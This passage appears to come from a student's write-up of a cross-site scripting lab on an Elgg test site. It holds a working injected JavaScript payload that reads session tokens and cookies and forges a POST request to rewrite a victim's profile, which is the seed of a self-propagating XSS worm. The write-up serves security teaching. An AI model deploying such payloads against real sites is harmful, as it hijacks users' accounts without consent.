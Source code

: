 ```js
    Ajax.setRequestHeader("Keep-Alive", "300");
    Ajax.setRequestHeader("Connection", "keep-alive");
    Ajax.setRequestHeader("Cookie", document.cookie);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
}
```

---

### Writing an XSS worm
- coding a worm which can change the information of an account in the web app.
- This requires the analysis of changing the 'about me' section in the web app.
- The attacker user11 uses the other account samy to update the 'about me' section to study the process.
- The 'inspect element' reveals that the process is a `POST` request which requires few parameters from the document.
  - These parameters are specific to the session and the user,
  - therefore, searching the parameters in the document

The javascript code must contain
- the `post request` required to proceed
- with the changing of the text in the 'about me' section.

```js
<script type="text/javascript">
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;

ff=new XMLHttpRequest();

ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// http://www.xsslabelgg.com/profile/user14/edit
ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/"+elgg.session.user["username"]+"/edit");

// __elgg_ts=AAAA&__elgg_token=BBBB&description=User-11-is-great&name=user14&accesslevel[description]=2&guid=user14Id0000001
params="__elgg_ts="+ts+"&__elgg_token="+token+"&description=User-11-is-great"+"&name="+elgg.session.user["username"]+"&accesslevel[description]=2&guid="+elgg.session.user["guid"];

ff.send(params);
```


---
